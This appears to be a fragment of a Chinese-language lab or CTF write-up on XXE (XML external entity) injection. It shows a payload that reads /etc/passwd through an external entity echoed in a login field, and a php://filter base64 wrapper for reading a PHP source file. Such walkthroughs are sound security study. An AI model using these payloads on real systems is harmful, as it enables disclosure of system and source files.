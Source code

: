 ```php
```

可以通过代码分析构造如下payload：

#### 有回显

```xml
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE hack [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<user>
 <username>&file;</username>
 <password>hack</password>
</user>
```

![image-20240226164148770](10.xml%E6%B3%A8%E5%85%A5xxe/image-20240226164148770.png)

当然也可以使用伪协议之类对目标文件进行读取

```xml
php://filter/read=convert.base64-encode/resource=doLogin.php
```
